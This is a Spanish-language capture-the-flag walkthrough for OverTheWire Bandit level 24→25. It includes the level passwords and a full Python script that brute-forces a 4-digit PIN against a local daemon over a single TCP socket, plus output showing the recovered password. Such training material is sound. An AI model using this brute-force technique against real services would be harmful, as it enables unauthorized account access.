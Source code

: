 # **Bandit Level 24 → Level 25 - Walkthrough**

## **Objetivo del Nivel**
Un daemon está escuchando en el puerto **30002** y proporcionará la contraseña para `bandit25` si recibe la contraseña correcta de `bandit24` y un código PIN de 4 dígitos. No hay manera de obtener el PIN más que probando todas las combinaciones posibles, lo que significa que debemos hacer un **ataque de fuerza bruta**.

## **Conceptos Claves**
### **Fuerza Bruta**
Este método consiste en probar **todas** las combinaciones posibles hasta encontrar la correcta. En este caso, tenemos **10,000 combinaciones posibles** (`0000` a `9999`).

### **Sockets en Python**
Un **socket** es una forma de comunicación entre procesos a través de la red. En este reto, usaremos **sockets TCP** para comunicarnos con el daemon en `localhost` y enviar los intentos de PIN de manera continua sin cerrar la conexión.

---

## **Pasos para Resolver el Nivel**

### **1. Conectar a Bandit 24**
Inicia sesión con la contraseña obtenida en el nivel anterior.

```sh
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Cuando se solicite, ingresa la contraseña:

```sh
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

---

### **2. Crear el Script en /tmp**
Nos movemos a la carpeta `/tmp` (ya que no tenemos permisos de escritura en `~/`):

```sh
cd /tmp
```

Creamos un nuevo archivo llamado `bruteforce.py`:

```sh
nano bruteforce.py
```

Pega el siguiente código en el editor.

---

## **3. Código en Python para la Fuerza Bruta**
Este script intentará **todas las combinaciones de PIN** en una sola conexión sin necesidad de reconectarse en cada intento.

```python
#!/usr/bin/env python3
import socket
import time

# Configuración de la conexión
host = 'localhost'
port = 30002

# Contraseña de bandit24 (asegúrate de usar la correcta)
password = 'gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8'

# Crear socket TCP y conectar al daemon en el puerto 30002
s = socket.socket()
s.connect((host, port))

# Leer el banner inicial si lo hay
try:
    banner = s.recv(1024).decode('utf-8')
    print("Banner inicial:\n", banner)
except Exception:
    print("No se pudo leer el banner inicial.")

# Iterar sobre todos los posibles PINs (0000 - 9999)
for pin in range(10000):
    pin_str = f"{pin:04d}"  # Asegura que el PIN tenga 4 dígitos (ej: 0001, 0023)
    
    # Construir el mensaje: "contraseña PIN"
    mensaje = f"{password} {pin_str}\n"
    
    # Enviar el intento
    s.sendall(mensaje.encode())

    # Leer la respuesta
    try:
        respuesta = s.recv(1024).decode('utf-8')
    except Exception:
        print("Error al recibir respuesta.")
        break

    # Si encontramos la contraseña, la imprimimos y terminamos
    if "Password" in respuesta or "bandit25" in respuesta:
        print(f"¡PIN encontrado! PIN: {pin_str}")
        print("Respuesta del daemon:\n", respuesta)
        break
    else:
        print(f"Intento con PIN {pin_str} fallido.")



# Cerrar la conexión
s.close()
```

---

### **4. Dar Permisos de Ejecución**
Después de guardar el archivo (`CTRL + X`, luego `Y` y `Enter`), necesitamos darle permisos de ejecución:

```sh
chmod +x bruteforce.py
```

---

### **5. Ejecutar el Script**
Ahora podemos ejecutar el script y dejar que haga la fuerza bruta automáticamente:

```sh
./bruteforce.py
```

Este script probará **todas las combinaciones de PIN** (`0000` a `9999`) en una única conexión.

Cuando encuentre el PIN correcto, imprimirá algo como esto:

```sh
¡PIN encontrado! PIN: 9297

Respuesta del daemon:

 Correct!

The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

Copiamos esta contraseña y la usamos para el siguiente nivel.

---

### **6. Conectar a Bandit 25**
```sh
ssh bandit25@bandit.labs.overthewire.org -p 2220
```

Cuando se solicite la contraseña, pegamos la que encontramos en el paso anterior.

---

## **Explicación del Código**
- **`socket.socket()`**: Crea una conexión TCP.
- **`s.connect((host, port))`**: Se conecta al puerto 30002 en `localhost`.
- **`s.sendall(mensaje.encode())`**: Envía la contraseña y el PIN al daemon.
- **`s.recv(1024).decode()`**: Recibe la respuesta del daemon.
- **`for pin in range(10000)`**: Itera desde `0000` hasta `9999` probando cada PIN.
- **`if "Password" in respuesta`**: Verifica si la respuesta contiene la contraseña de `bandit25`.

---

## **Conclusión**
Este método permite **encontrar el PIN correcto en menos de 1 minuto** sin necesidad de abrir múltiples conexiones. Si el script se interrumpe, puedes volver a ejecutarlo y comenzará desde `0000` nuevamente.

**¡Felicidades!** Has completado el nivel 24 y ahora puedes avanzar al nivel 25. 🚀